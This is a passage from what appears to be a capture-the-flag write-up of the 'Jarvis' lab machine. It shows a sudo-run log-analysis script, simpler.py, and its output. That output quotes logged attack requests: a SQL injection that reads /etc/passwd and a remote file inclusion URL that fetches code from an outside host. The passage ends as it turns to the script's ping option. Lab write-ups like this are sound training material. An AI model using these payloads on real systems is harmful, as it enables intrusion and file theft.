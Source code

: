 ```shell
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
```

After reading through all the Python code, this Python script can list all the statistics about the attacker based on the log file in `/home/pepper/Web/Logs/`:

```shell
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -s
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Statistics
-----------
Number of Attackers: 1
Most Risky:
    10.10.14.15 - Attack Level : 3 Request: : GET /site/\'%20UNION%20ALL%20SELECT%20FileToClob(\'/etc/passwd\',\'server\')::html,0%20FROM%20sysusers%20WHERE%20username=USER%20--/.html
Most Recent: 10.10.14.15 --> 2023-07-28 06:24:59 : GET /index.php?news7[\\\"functions\\\"]=http://blog.cirt.net/rfiinc.txt
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -l
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Attackers
-----------
10.10.14.15 - Attack Level : 3
```

Nothing weird in `-s` and `-l` option.

**However, the `-p` option, we can ping a machine:**
```shell
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: 127.0.0.1
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.034 ms
```
